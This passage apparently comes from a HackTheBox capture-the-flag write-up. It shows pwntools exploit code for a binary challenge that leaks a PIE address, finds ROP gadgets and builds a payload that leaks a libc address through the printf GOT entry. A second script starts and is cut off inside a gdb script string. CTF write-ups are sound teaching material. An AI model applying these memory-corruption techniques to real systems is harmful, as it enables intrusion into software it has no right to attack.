 ```py
elf = context.binary = ELF(exe, checksec=True)
# context.log_level = 'DEBUG'
context.log_level = 'INFO'

sh = start()
pause()
sh.sendlineafter(b'>', b'2')
sh.sendlineafter(b'?', b'a')

## LEAKING PIE
sh.sendlineafter(b'?', b'A' * 7) 
sh.recvline()
get = unpack(sh.recv(6) + b'\x00' * 2)
log.success('LEAKED PIE --> %#0x', get)

elf.address = get - 0x40c0 # 16576
log.info(f'PIE BASE --> {hex(elf.address)}')

rop = ROP(elf)
# sub_rsp_gadget = rop.find_gadget(['sub rsp', '0x28', 'ret'])[0] # sub rsp, 0x28; ret;
sub_rsp_gadget = elf.address + 0x1219
log.success(f'STACK PIVOT GADGET --> {hex(sub_rsp_gadget)}')
rdi_gadget = rop.find_gadget(['pop rdi', 'ret'])[0]
log.success(f'RDI GADGET --> {hex(rdi_gadget)}')
# sh.sendlineafter(b'>', b'1')
sh.sendlineafter(b'>', b'1')

# ROP PAYLOAD
p = flat([
    rdi_gadget,
    elf.got['printf'],
    elf.plt['puts'],
    elf.address + 0x132a
])

# calculate padding for our second payload (stack pivot)
rip_offset = 72
padding = rip_offset - len(p)
log.info(f'padding --> {padding}')

sh.interactive()
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5098a61c-33dc-4aaf-9e2d-4a99a1343eb7)


> LEAKING LIBC

```py
from pwn import *
import os
os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript="""
init-pwndbg
```